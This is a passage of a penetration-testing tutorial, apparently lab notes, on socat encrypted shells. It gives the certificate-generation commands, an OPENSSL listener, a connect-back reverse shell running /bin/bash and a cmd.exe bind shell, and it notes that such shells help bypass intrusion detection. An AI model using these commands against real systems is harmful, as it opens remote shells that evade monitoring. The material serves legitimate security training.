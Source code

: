 Note that the socat shell is fully interactive,
allowing us to use interactive commands such as SSH.
This can then be further improved by setting the stty values as seen in the
previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly,
it's well worth increasing the verbosity by adding `-d -d` into the command.
This is very useful for experimental purposes,
but is not usually necessary for general use.

## Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating
encrypted shells -- both bind and reverse.
Why would we want to do this? Encrypted shells cannot be spied on unless you
have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task,
so that syntax will not be covered again here.
Suffice to say that any time TCP was used as part of a command,
this should be replaced with `OPENSSL` when working with encrypted shells.
We'll cover a few examples at the end of the task,
but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells.
This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed,
and valid for just under a year.
When you run this command it will ask you to fill in information about the certificate.
This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate.
`verify=0` tells the connection to not bother trying to validate that our
certificate has been properly signed by a recognised authority.
Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:
